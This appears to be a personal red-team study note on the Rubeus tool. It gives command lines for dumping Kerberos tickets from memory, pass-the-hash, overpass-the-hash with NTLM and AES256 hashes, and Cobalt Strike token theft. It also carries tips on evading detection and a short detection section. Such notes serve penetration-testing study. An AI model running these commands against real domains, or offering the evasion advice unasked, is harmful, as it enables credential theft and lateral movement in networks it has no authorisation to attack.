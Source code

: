 ```yaml
---
tags:
  - tool
  - windows
  - AD
date: 2023-09-1
---
```

# Rubeus

- Can be used for [[Kerberoasting]]
- `Rubeus.exe triage` will list all the [[Kerberos]] tickets in your current logon session and if elevated, from all logon sessions on the machine.
- `Rubeus.exe dump` command will extract all tickets from memory using WinAPIs, which will not open handles to LSASS.
- You can specify which ticket you want to extract by specifying the `/luid` and `/service` parameters.
# [[Pass The Hash]] with Rubeus

- Start a new hidden process: `Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe`
	- The following will make it slightly harder to detect as the username and password will not be randomized: `Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:jonathan.int /username:bfarmer /password:password123!`
- Pass the TGT into the new LUID using the `ptt` command where `/luid` is the LUID just created and `/ticket` is the base64 encoded ticket.
- Run `rubeus.exe dump` and copy the base64 encoded ticket.
- Run `rubeus.exe ptt /luid:<previously_created_luid /ticket:<base64ticket>`.
- Finally, using [[Cobalt Strike]], steal the token of the previously spawned service using `ps` to find the process id and `steal_token <pid>`.
# [[Overpass the Hash]] with Rubeus

- Request a [[Kerberos]] TGT for a user using their [[NTLM]] or AES hash. Elevated privileges are required to obtain a user hash, but not to request a ticket: `Rubeus.exe asktgt /user:jonathan /ntlm:50fc0f884922b4ce34c71e22c /nowrap`
- This ticket can be used with [[Pass the Ticket]].
- A better way to do this is to use the AES256 hash, making it blend in to the environment better: `Rubeus.exe astgt /user:jonathan /aes256:4a8a74daad837ae09e9cc8c2f1b8b934d4bbebade8318ae57c6 /nowrap`.
# Detecting Rubeus

When attempting to pass the hash, Rubeus will use a random username, domain and password which appear in the associated [[Windows Event Logs]] 4624 logon event.